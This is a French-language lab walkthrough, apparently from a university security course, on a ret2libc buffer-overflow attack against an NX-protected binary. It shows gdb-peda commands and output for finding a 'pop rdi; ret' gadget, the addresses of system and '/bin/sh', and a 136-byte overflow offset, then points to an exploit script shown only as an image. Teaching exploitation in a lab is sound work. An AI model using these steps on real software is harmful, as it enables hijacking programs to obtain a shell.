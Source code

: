 Return 2 libc

Le binaire est compilé avec le flag NX activé (moyen de protection par le noyau rendant la pile non exécutable)


![ret1](https://github.com/aabda2000/sti3a-security/assets/38082725/a7908f53-49b0-4ed9-8a84-5e8b42212306)


## Comment retourner à libc ?
Ici, l'objectif est de détourner le flot d'exécution normal du processus : Il s'agit de le rediriger pour exéuter la fonction system de libc:
int system(const char *command). 

plus précisément, on voudrait exécuter l'instruction : system("/bin/sh")

## Gadget poprdi ?

On commence notre investigation par la recherche d'un gadget de type pop rdi (il faut d'abord faire un break et ensuite lancer le programme):


![ret2](https://github.com/aabda2000/sti3a-security/assets/38082725/b24826df-0697-4033-baf7-e3a3d395324a)

sinon, vous pouvez cherchez ce gadget en fournissant les adresses de début et de fin de mappage de libc:

![ret3](https://github.com/aabda2000/sti3a-security/assets/38082725/50c7c117-e152-4260-a75e-13440038dfa0)


gdb-peda$ ropsearch "pop rdi ; ret" 0x00007ffff7dee000 0x00007ffff7faf000

ou

gdb-peda$ dumprop

ou

gdb-peda$ asmsearch "pop rdi ; ret"

## Chercher l'adresse de la chaîne "/bin/sh"

![ret4](https://github.com/aabda2000/sti3a-security/assets/38082725/e73f41cb-5a46-478e-8a6c-3b82b30164a4)

## Chercher l'adresse de la fonction system

gdb-peda$ p system
$1 = {int (const char *)} 0x7ffff7e36e50 <__libc_system>
gdb-peda$

## Chercher l'offset

gdb-peda$ pattern_create 400 entry.txt
Writing pattern of 400 chars to filename "entry.txt"
gdb-peda$ 
gdb-peda$ r < <(cat entry.txt)
Starting program: /home/insa/advanced/secu/cm/02-ret2libc/ret2libc < <(cat entry.txt)

adress of buf=0x7fffffffde10
Stopped reason: SIGSEGV
0x0000000000401178 in vuln () at ret2libc.c:10
10	}
gdb-peda$ x/1wx $rsp
0x7fffffffde98:	0x41514141
gdb-peda$ pattern offset 0x41514141
1095844161 found at offset: 136

l'offset vaut 136

La génération d'une erreur de segmentation (et d'un coredump (contenant l'état de la mémoire au moment du décès du processus,
sous GNU/Linux) est le syndrome que notre application est effectivement affectée par l'insertion d'un trop grand nombre de caractères en entrée.

## Lancez l'attaque

Mettez les différentes adresses trouvées dans le script pyton ret2libc.py et exécutez-le ensuite:

![ret5](https://github.com/aabda2000/sti3a-security/assets/38082725/1880213c-e883-4757-aefa-1679fe2e8eba)
